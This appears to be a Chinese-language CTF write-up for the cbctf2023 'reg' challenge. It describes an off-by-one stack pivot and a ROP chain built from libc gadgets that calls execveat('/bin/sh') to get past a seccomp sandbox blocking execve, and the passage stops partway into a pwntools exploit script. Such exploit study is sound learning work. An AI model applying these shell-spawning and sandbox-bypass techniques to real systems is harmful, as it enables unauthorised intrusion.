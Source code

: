 ```yaml
---
title: cbctf2023 - reg 
date: 2024/4/22 00:40:00
updated: 2024/7/25 12:34:56
tags:
    - rop
excerpt: 通过分析CTF题目，利用ROP链和libc中的gadget，构造了execveat("/bin/sh")的payload以获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.5|

## seccomp rules

<img src="/assets/cbctf2023/sandbox.png" height="70%" width="70%">

## 解题思路

先patchelf...然后看栈上内容，有libc, stack，还能控制rbp(buf[0x20] off-by-one 编码错误)，
考虑最后栈迁移；然后就是复制libc地址并偏移到gadget；由于没有pie地址，所以用不了程序的gadget，
考虑用libc中的gadget；还有就是程序有沙盒，所以预期解是orw，但是本地能通，远程不通，
怀疑是fd对不上，但是又不能用`push rax;ret`的gadget：严重干扰rop，使rax成rip了；
回看沙盒，发现除了execve都放行了，execveat被绕过了，故构造`execveat("/bin/sh")`
（只写了关键参数）

## EXPLOIT

```python
from pwn import *
sh = ''
def Add(idx:int, direct:bool, content:int):
    global sh
    sh.sendline(b'2')
    sh.sendline(f'{idx} {1 if direct else 2} {content}'.encode())
    sleep(0.25) # no output, so sleep to avoid input piling

def Set(idx:int, direct:bool, content:int):
    global sh
    sh.sendline(b'1')
    sh.sendline(f'{idx} {1 if direct else 2} {content}'.encode())
    sleep(0.25)

def payload(lo:int, expected:bool):
    global sh
    libc = ELF('./libc-2.35.so')
    if lo:
```